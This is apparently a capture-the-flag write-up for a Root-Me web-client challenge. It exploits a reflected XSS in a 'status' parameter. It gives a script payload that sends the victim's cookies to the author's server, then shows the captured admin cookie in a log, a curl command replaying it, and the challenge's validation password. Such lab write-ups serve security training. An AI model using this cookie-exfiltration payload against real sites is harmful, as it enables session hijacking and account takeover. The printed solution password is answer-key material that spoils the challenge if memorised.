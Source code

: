 In this challenge, we can exploit a reflected XSS vulnerability through the **status** variable, which is both reflected and stored. By intercepting the request in Burp Suite, we can modify this variable to inject our payload.

The following payload sends a request to my server, exfiltrating the victim's cookies:
```
invite"><script>document.location='https://my-server?c='+document.cookie</script>
```

Response:
```
127.0.0.1 - - [24/Feb/2025 23:28:32] "GET /?c=status=invite;%20ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F HTTP/1.1" 200 -
```
```bash
┌─[nguyenlong05@sw1mj3llyf1sh] - [~] - [Mon Feb 24, 23:33]
└─[$] <> curl 'http://challenge01.root-me.org/web-client/ch19/?section=admin' -H "Cookie: status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F" | grep pass
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1345    0  1345    0     0   2740      0 --:--:-- --:--:-- --:--:--  2744
	<h3>Vous pouvez valider ce challenge avec ce mot de passe / You can validate challenge with this pass : E5HKEGyCXQVsYaehaqeJs0AfV
```